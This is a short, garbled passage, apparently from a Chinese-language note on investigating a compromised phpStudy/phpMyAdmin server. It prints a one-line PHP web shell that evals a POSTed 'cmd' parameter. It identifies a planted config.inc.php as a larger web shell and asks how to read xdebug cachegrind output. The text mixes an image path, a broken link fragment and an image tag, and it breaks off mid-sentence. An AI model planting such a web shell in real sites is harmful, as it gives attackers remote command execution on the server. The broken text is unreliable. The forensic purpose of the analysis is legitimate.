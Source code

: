     <?php
    eval($_POST[cmd]);
    ?>  
    
a href=./config.inc.php，看修改日期后确认是大马。

原先存在相似的文件名称，为：```D:\phpStudy\WWW\MyAdmin\setup\frames\config.inc.php```
<br>
<br>
<br>
*xdebug输出的 cachegrind 文件不知如何分析？不胜赐教！文件内容大同小异，如下：*
<div align="center"><img src="2017-game-cache1.jpg" width="300"/></div>
能看到利用php的操作: